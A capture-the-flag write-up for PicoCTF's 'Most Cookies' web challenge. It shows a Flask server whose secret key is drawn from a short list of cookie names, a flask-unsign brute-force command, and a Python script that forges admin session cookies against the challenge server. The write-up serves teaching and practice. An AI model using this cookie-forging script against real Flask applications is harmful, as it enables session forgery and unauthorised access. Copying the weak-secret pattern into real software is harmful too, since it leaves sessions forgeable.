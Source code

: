 ```yaml
---
title: PicoCTF 2021 - Most Cookies
date: 2024-12-11 10:30:00 
categories: [CTF]
tags: [coding,flask,python,cookies] 
---
```


![figure](/assets/img/posts/8/1.png)

## Challenge Overview

This challenge falls under the **Web** category and, as the title suggests, is about manipulating cookies. The challenge description mentions **Flask sessions**, and we are provided with a backend source code file named `server.py`.

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()

```

- **Difficulty**: Medium  
- **Objective**: The goal is to exploit the application to generate an admin cookie. Let's dive right into solving this challenge!

---

## Tools Used

- `flask-unsign`  
- `Python`  

---

## Solution

### 1. Solving the Challenge with `flask-unsign`

Using `flask-unsign`, solving this challenge is straightforward. We can extract the secrets, save them into a password list, and brute-force the secret key using the following command:

```bash
flask-unsign -u --server "http://mercury.picoctf.net:6259" --wordlist wordlist.txt
```

As shown in the figure below:  
![flask-unsign output](/assets/img/posts/8/2.png)

This method quickly provides the secret to craft a valid admin session token.

---

### 2. Solving the Challenge Manually with Python

While automation is convenient, I wanted to manually replicate the process to understand the underlying mechanisms better. This approach helped me face and solve issues like **infinite redirects** and **invalid cookies**.

Even though this challenge is old, I believe sharing knowledge is timeless, so here's my manual solution.

---

#### Understanding Flask Session Generation

To brute-force a cookie session, it’s crucial to understand how it is generated. After struggling to create a valid session, I examined the Flask source code, particularly the `sessions.py` file, which you can find [here](https://github.com/pallets/flask/blob/6b054f8f3876ff4c31580b014d344c4cf491059d/src/flask/sessions.py).

Scrolling down, I found the **`SecureCookieSessionInterface`** class at line 298, with a comment explaining:

> The default session interface that stores sessions in signed cookies through the `itsdangerous` module.

Key points for generating a signed cookie:
- It uses the **`itsdangerous`** library for securely signing data.  
- Default salt: `cookie-session`.  
- Digest method: `SHA-1`.  
- Authentication technique: `HMAC`.  
- Serializer: Flask `TaggedJSONSerializer` ( we can use json module instead).  

![SecureCookieSessionInterface snippet](/assets/img/posts/8/3.png)

It also uses **`URLSafeTimedSerializer`**, as described in the [itsdangerous documentation](https://itsdangerous.palletsprojects.com/en/stable/url_safe/):  
![URLSafeTimedSerializer snippet](/assets/img/posts/8/4.png)

---

#### Crafting a Valid Cookie

Based on this, I wrote a Python script to brute-force the session cookie manually. Here's the solution:

```python
#!/usr/bin/env python3

import re
import json
import hashlib
import requests
from itsdangerous import URLSafeTimedSerializer

url = 'http://mercury.picoctf.net:6259/display'
headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0'}

wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

salt = 'cookie-session'
data = {'very_auth': 'admin'}

flag_pattern = r'picoCTF\{.*?\}'

# Brute-force secret key
for secret in wordlist:
    
    # session Configuration
    signer_kwargs = {'key_derivation': 'hmac', 'digest_method': hashlib.sha1}
    serializer_instance = URLSafeTimedSerializer(secret_key=secret, salt=salt, signer_kwargs=signer_kwargs)
    token = serializer_instance.dumps(data)
    
    cookies = {'session': token}
    
    # Send request with token
    resp = requests.get(url, cookies=cookies, headers=headers, allow_redirects=False)
    flag = re.findall(flag_pattern, resp.text)
    
    if flag:
        print(f'[+] Secret found: {secret}')
        print(f'[+] Flag: {"".join(flag)}')
        break
```

---

## Lessons Learned

1. **Flask Sessions and Security**: Understanding how Flask sessions are signed is crucial to exploiting or securing applications that use them.  
2. **Manual vs Automated Approaches**: While tools like `flask-unsign` are quick, manually solving challenges deepens your knowledge and exposes you to hidden issues.  
3. **Reading Source Code**: Analyzing libraries like `itsdangerous` or Flask helps uncover details essential for crafting successful exploits.  

---

This writeup demonstrates the importance of balancing manual analysis with automation, and I hope it helps others understand Flask session handling better.
